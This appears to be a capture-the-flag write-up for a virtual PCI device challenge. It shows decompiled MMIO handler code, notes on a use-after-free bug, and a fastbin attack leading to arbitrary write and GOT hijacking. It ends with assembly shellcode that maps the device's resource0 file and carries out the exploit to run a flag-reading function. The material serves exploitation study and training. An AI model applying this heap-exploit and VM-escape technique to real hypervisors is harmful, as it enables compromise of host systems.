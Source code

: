 ```c
    v11 = ((unsigned int)v6 & 0xF0000) >> 16;
    if ( v11 == 15 )
    {
      for ( i = 0; i <= 14; ++i )
        *(&qword_1317940 + i) = malloc(8LL * *(_QWORD *)&n[4]);
    }
    else
    {
      *(&qword_1317940 + (signed int)v11) = malloc(8LL * *(_QWORD *)&n[4]);
    }
  }
}
```
* The operation will be determined by IO offset. When your write offset is 0xabXXXX. 
* If a==1, then it will trigger free operation. 
* If a==2, then it will trigger write operation.
* Otherwise, it will trigger malloc.
* And b indicate the chunk offset on 0x1317940
* The value will be the chunk size or the value written on the chunk
* XXXX will be the offset on the chunk
* There is a UAF vulnerabilty!! You can overwrite freed chunk to launch fastbin attack.
* We can forge a fake chunk on the 0x1317940. then we can write 0x1317940. It also means that we have an arbitrary write.
* We can overwrite GOT to hijack control flow
* There is a magic function which is located at 0x6e65f9. It will triger system("cat ./flag")
* Use GOT-hijacking then you can run that magic function and get the flag
* Unfortunately we cannot upload a binary on remote vm, becasue the vm has no network connection. We can base64 encode our binary and send it to the vm. But the binary needs to be small enough, or you cannot send the whole binary because of network conditon.
* So I write some shellcode for exploit.
* The shellcode:
```nasm
section .data
    msg db      "/sys/devices/pci0000:00/0000:00:04.0/resource0"
section .text
    global _start
_start:
    mov     rax, 2
    mov     rdi, msg
    mov     rsi, 2
    mov     rdx, 0
    syscall
    mov    rdi, 0
    mov    rsi, 0x1000000
    mov    rdx, 3
    mov    r10, 1
    mov    r8, rax
    mov    r9, 0
    mov    rax,9
    syscall
    mov    rcx, rax
    mov    WORD [rax+0x20000],0xc             # malloc a chunk on 0x1317940+0x8*2
    mov    BYTE [rax+0x120000],0xc            # free the chunk on 0x1317940+0x8*2
    mov    DWORD [rax+0x220000],0x131794d     # overwrite the fd on 0x1317940+0x8*2
    mov    DWORD [rax+0x220004],0x0           #
    mov    BYTE [rax+0x10000],0xc             # malloc once
    mov    BYTE [rax+0x10000],0xc             # malloc twice , now we have a chunk at 0x131794d
    mov    DWORD [rax+0x210000],0xa0000000    # forge a fake chunk address on 0x1317960 and the address will be free got (0x11301a0)
    mov    DWORD [rax+0x210004],0x11301       #
    mov    DWORD [rax+0x240000],0x6e65f9      # Overwrite free got. The new address will trigger system("cat ./flag")
    mov    DWORD [rax+0x240004],0x0           #
```